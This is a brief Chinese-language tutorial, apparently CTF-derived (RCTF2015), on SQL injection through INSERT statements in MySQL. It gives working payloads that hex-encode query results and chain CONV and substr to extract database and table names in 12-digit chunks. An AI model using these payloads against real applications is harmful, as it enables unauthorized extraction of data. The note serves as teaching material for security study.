 在sql注入中，如果存在insert的话，可以在字段中进行拼接

但是需要技巧，这里以在字段中添加数据库名的查询为例

```
'test1'+(select database())
```

![1558440861774](img/Insert-tips1.png)

那么执行后会出现以下结果

![1558441007108](img/Insert-tips2.png)

返回为0，但是如果利用如下技巧

```
'test1'+(select hex(database()))
```

![1558441115745](img/Insert-tips3.png)

再进行16进制解码就能获取结果

但是如果太长会出现截断的问题，比如本来的查询语句如下

```
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

此时用上述payload会发生以下情况,不能完全编码

![1558442002178](img/Insert-tips4.png)

![1558442033923](img/Insert-tips5.png)

这时候可以用截取substr函数来获取结果，和进制转换CONV来实现，

CONV把16进制转为10进制可以使结果更长，但是超过12位会回显科学计数法，所以要用substr来截断，mid也行

最后使用的payload如下

```
//第一截
'test1'+
(select CONV(substr(hex((select group_concat(table_name) from information_schema.tables where table_schema=database())),1,12),16,10))

//第二截
'test1'+
(select CONV(substr(hex((select group_concat(table_name) from information_schema.tables where table_schema=database())),13,12),16,10))

//之后依次
```

![1558443107654](img/Insert-tips6.png)

![1558443372191](img/Insert-tips7.png)



知识点来源于：RCTF2015 WEB update
